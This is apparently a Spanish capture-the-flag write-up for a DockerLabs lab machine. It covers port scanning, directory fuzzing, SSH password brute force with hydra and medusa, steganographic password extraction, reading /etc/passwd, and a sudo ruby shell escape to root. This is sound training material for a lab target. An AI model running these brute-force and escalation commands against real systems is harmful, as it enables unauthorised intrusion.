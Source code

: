 
> Habilidades: Enumeración, fuerza bruta, escalada de privilegios (linux), esteganografía.


# RECONOCIMIENTO


## Nmap Scan

Realizamos el primer sondeo a la ip de la victimma para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/Nmap1Scan.png?raw=true)

- `--open`: Nos muestre los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumaeración a los puertos abiertos.
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ServicesScan.png?raw=true)
- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________________________________________________

## Http Service


Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extension de navegador Wappalyzer)

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/whatweb.png?raw=true)

Abrimos en navegador y vamos a dicha web, leemos y podemos ver algo interesante, una nota de `Carlota`.
Yo siempre reviso view-source de la web por si se me escapa algo interesante.
![despido](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/despidoempleado.png?raw=true)

_____________________________________________________________________________________________________________________________________________________________________

## Fuzzing



El siguiente paso será intentar descubrir posibles directorios, podemos usar cualquier herramienta de fuzzing, yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/zfuzz.png?raw=true)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/burp.png?raw=true)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intenta hacer fuerza bruta con uno de ellos. En este caso usaremos dos herramientas diferentes aunque con el mismo resultado.

~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especifica un nombre.
- `-P`: Especifica una lista de palabras.
- `-t4`: Especifica hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

~~~ bash
medusa -h 172.17.0.2 -u carlota -P /usr/share/wordlists/rockyou.txt -M ssh -t 4
~~~
![medusa](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/medusa.png?raw=true)

- `-h`: Especifica la dirección IP del objetivo.
- `-u`: Especifica el nombre de usuario a probar.
- `-P`: Especifica el archivo de lista de contraseñas a utilizar.
- `-M`: Especifica el módulo a utilizar, en este caso SSH.
- `-t 4`: Especifica el número de hilos a utilizar para agilizar el proceso.

__¡¡BINGO!! obtuvimos las credenciales de Carlota.__

_____________________________________________________________________________________________________________________________________________________________________
# Escalada de privilegios

Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente, para ello cambiaremos el valor de la variable `$TERM`. En este caso, nuestra shell (SSH) ya es interactiva, solo necesitaremos export TERM=xterm.

~~~ bash
/bin/bash -i
export TERM=xterm
~~~

### Enumeracion entorno

En primer lugar veremos si tenemos privilegios `sudo` mediante `sudo -l`, pero no hay suerte. Seguimos enumerando y vemos una imagen en una carpeta de Carlota.

![estego](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/estego.png?raw=true)

Vamos a comprobar si tiene información oculta. En primer lugar nos la descargamos, para ello lo vamos a hacer de dos modos diferentes, es bueno saver varias maneras de hacer las cosas ya que no siempre funcionan los mismos metodos.

~~~ bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /opt/amor
~~~
![scp](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/scp.png?raw=true)

El segundo sería crear un servidor temporal con python y descargarla desde el lado del atacante.

~~~ bash
Victima
python3 -m http.server 8080
~~~
![httpserver](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/httpserver.png?raw=true)
~~~
Atacante
wget http://172.17.0.2:8080/imagen.jpg
~~~
![wget](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/wget.png?raw=true)


## Esteganografía y escalada de privilegios

Para comprobar si tiene informacion oculta o metadatos, usaremos la herramienta steghide.

Con las opciones extract y sf estraemos los metadatos si los hubiera en un archivo.

~~~
steghide extract -sf imagen.jpg
~~~
El contenido del archivo parece estar codificado en base64.

![steg](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/stg.png?raw=true)

Decodificamos con un simple comando.

~~~
cat secret.txt | base64 -d
~~~
![decode](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/decode.png?raw=true)

Probamos la contraseña para escalar a root pero no hay suerte. Revisamos el archivo /etc/passwd para ver los usuarios.
Observamos tres usuarios activos, oscar, carlota y root.

~~~
cat /etc/passwd
~~~
![users](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/users.png?raw=true)

Probamos con el usuario Oscar y efectivamente funciona.
~~~
su oscar
whoami
~~~
![changeuser](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/oscar.png?raw=true)

Los siguientes pasos consisten en enumerar al igual que con el usuario Carlota.

Tanto directorios, como permisos  de archivos, rutas. El primer paso es saber si puede ejecutar sudo con `sudo -l`.
~~~
sudo -l
~~~
![nopassword](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/nopasswd.png?raw=true)

Podemos ver que el usuario Oscar puede ejecutar /usr/bin/ruby como root sin necesidad de contraseña.
Ahora vamos a averiguar la manera. Vamos a la web gtfobins.github.io, buscamos ruby y seleccionamos sudo.
Leemos atentamente, en este camos buscamos un shell simplemente.

![ruby](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ruby.png?raw=true)
~~~
sudo ruby -e 'exec "/bin/sh"'
whoami
~~~

![root](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/root.png?raw=true)

Pues ya estaría :D




